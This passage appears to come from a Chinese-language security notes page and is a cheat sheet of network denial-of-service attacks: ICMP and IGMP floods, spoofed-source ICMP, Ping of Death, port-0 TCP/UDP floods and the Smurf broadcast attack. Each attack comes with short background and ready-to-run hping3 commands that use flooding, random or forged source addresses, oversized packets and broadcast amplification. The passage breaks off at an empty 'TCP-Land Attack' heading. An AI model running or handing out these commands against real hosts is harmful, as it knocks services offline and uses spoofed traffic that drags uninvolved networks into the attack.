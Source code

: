 ICMP（Internet Control Message Protocol–Internet 控制消息协议）和 IGMP（Internet Group Management Protocol–Internet 组管理协议）是网络层的协议类似于 UDP。ICMP 递送状态消息，错误报告，回答某些请求，报告路由信息，并且常用于测试网络的连通性和排查问题。IGMP 是 IP 网络上的系统和相邻路由用来建立和维护多播组成员关系的协议。

ICMP and IGMP Floods 类似于 UDP 不需要任何漏洞，只需要发送大量的 ICMP 或 IGMP 数据包，在处理每一个数据包的时候资源消耗殆尽导致拒绝服务。

```bash
hping3 -d 501 --flood --rand-source -1 -p PORT <目标IP>
```

:::

::: details 固定源 ICMP 攻击

伪装 IP 攻击

```bash
hping3 -1 -a 伪装IP 目标IP
```

:::

::: details Ping of Death

Ping of death 是一种拒绝服务攻击，方法是由攻击者故意发送大于 65536 比特的 ip 数据包给对方。Ping of death 攻击利用了 Internet 控制消息协议 (ICMP) 和最大传输单元 (MTU) 的特点，Ping 命令发送 ICMP 回应请求 (ICMP Echo-Request) 并记录收到 ICMP 回应回复 (ICMP Echo-Reply)。MTU 定义了具有不同媒体类型的网络架构的单元最大传输量。

如果数据包大小大于MTU，数据包将被拆分，并在目的主机重新组合。当数据包被分解时，数据包会涵盖一个“偏移”值，这个偏移值用于在目的主机重组数据。攻击者可以将最后的数据片段替换为合理的偏移值和较大的数据包，这样将会超过ICMP回应请求数据部分的数量，如果进行重组，目的计算机将会重新启动或者崩溃。

```bash
hping3 -1 -d 70000 -c 1 <目标ip>
```

:::

::: details 源端口为 0**

访问 UDP/TCP 的 0 端口导致该事件的产生，这是一个不正常的访问，暗示着非授权的网络访问或探测活动。

```bash
hping3 -c 10000 -d 120 --tcp -w 64 -p 0 --flood --rand-source +host <目标IP>
    
hping3 -c 10000 -d 120 --udp -w 64 -p 0 --flood --rand-source +host <目标IP>
```

:::

::: details ICMP-Smurf attack

ICMP/SMURF 攻击利用的是网络广播的原理来发送大量的连接, 而包的源地址就是要攻击的机器本身的地址; 因而所有接收到此包的主机都将给包的源地址发送一个 ICMP 回复包。

```bash
hping3 -1 -a 192.168.0.1 192.168.0.255

hping3 -1 -a 目标ip 目标服务器广播地址
```

:::

::: details TCP-Land Attack
